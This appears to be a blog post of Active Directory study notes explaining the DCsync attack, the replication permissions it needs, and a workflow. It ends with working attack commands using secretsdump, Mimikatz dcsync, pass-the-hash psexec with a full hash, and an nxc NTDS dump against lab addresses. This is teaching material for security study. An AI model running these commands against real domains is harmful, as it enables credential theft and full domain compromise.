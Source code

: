 ```yaml
---
layout: post
title: DCsync Attack
date: 2025-09-29 18:00:00 +0300
categories: [Active Directory - CRTP, DCsync, DCsync Attack] # Add your new categories here
tags: [Replication, secretdump, ntds, ChangeAll]
image: "photos/DCsync/DCsynvattack.jpg"   

---
```


**DCsync** 
abuses Active Directory replication: an attacker impersonates a domain controller and requests replication from a real DC to obtain credential material (password hashes, Kerberos keys, etc.). This lets the attacker harvest account credentials without directly compromising the domain controller’s NTDS.dit file.

**How it works (short):**

![](/photos/DCsync/Attack.jpg)

- AD replication allows DCs to exchange directory changes.
- If an account has the appropriate replication privileges, an actor can request those changes and receive sensitive secrets (NT hashes, AES keys) for domain accounts.
- This is not possible for arbitrary domain users — specific permissions are required.

**Required permissions / privileges**

(typically granted to high-privilege groups such as Domain Admins / Enterprise Admins / Domain Controllers, or explicitly delegated):

- `DS-Replication-Get-Changes`
- `DS-Replication-Get-Changes-All`
- `DS-Replication-Get-Changes-In-Filtered-Set`

![](/photos/DCsync/permission.png)

**Typical workflow / examples**

1. Attacker impersonates a domain controller and requests replication from a real DC.
2. Use tools to request/collect secrets from the target DC.

Example tools / commands (formatted):

```bash
# Using Impacket's secretsdump (example placeholder)
# format may vary; adapt to your toolset/environment
secretsdump.py svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175

# Mimikatz (run on a compromised machine with appropriate privileges)
# in mimikatz interactive shell:
lsadump::dcsync /user:DOMAIN\Geno

# Use harvested hashes with psexec (Impacket) to authenticate over SMB
psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' \
  -dc-ip 10.10.10.175 administrator@10.10.10.175

# Another example tool invocation (nxc.exe example from your notes)
nxc.exe smb geno.gove.local -u mikasa -p 'P@ssw0rd' --ntds

```